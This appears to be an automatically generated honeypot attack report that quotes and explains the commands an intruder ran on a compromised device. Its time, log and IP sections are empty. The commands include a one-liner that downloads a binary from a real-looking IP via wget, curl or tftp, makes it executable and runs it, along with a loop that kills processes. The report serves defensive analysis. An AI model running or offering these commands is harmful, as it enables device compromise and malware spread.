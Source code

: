 
<details><summary>
<h1>Time and Date of Activity</h1>
</summary></details>

---


<details><summary>
<h1>Relevant Logs, File or Email</h1>
</summary></details>

---


<details><summary>
<h1>IP and Ports</h1>
</summary></details>

---


# Commands Used
This attack used a total of `9` inputs to execute the following `17` commands:
The commands used by the attacker and their functions in the context of the attack are as follows:

1. `enable`: This is a command used to enable privileged EXEC mode on networking devices, commonly used in Cisco devices. It's unclear if this command was executed in a networking context or if it had any impact on the attack.

2. `system, shell, sh, linuxshell`: These commands are used to access the system shell or execute shell commands. They provide access to the underlying operating system and are commonly used to perform system-level tasks and execute scripts or commands.

3. `cd /tmp/; echo "senpai" > rootsenpai; cat rootsenpai; rm -rf rootsenpai`: This sequence of commands navigates to the /tmp directory, creates a file named "rootsenpai" with the content "senpai", reads the content of the file, and then deletes the file. This could be a method used to test or manipulate file creation and deletion permissions.

4. `for dir in /proc/[0-9]*; do grep -q "(deleted)" "$dir/maps" && echo "Killing process with PID: $(basename $dir)" && kill -9 $(basename $dir); done`: This command iterates through the /proc directory and kills processes where memory-mapped files have been deleted. This may be an attempt to disrupt the operation of certain processes in the system.

5. `rm -rf ah; wget http://94.156.68.152/ah || curl -O http://94.156.68.152/ah || tftp 94.156.68.152 -c get ah || tftp -g -r ah 94.156.68.152; chmod 777 ah;./ah ssh; rm -rf ah`: This sequence of commands removes any existing "ah" file, downloads a file named "ah" from the IP address 94.156.68.152 using multiple methods (wget, curl, and tftp), sets executable permissions for the file, executes the file with the argument "ssh", and then removes the file. This sequence of commands is attempting to download, execute, and remove a file related to the "ah" script while ensuring it has execution permissions.

6. `basename $dir`: This command seems to be an isolated command to obtain the base name of the directory, but its specific context and purpose in the attack are unclear.

### Summary
The commands used in the attack indicate a range of activities, including system-level manipulation, file handling, process disruption, and the downloading and execution of remote files. These commands suggest a systematic attempt to disrupt the system, execute potentially malicious files, and manipulate system resources for unauthorized access and control.
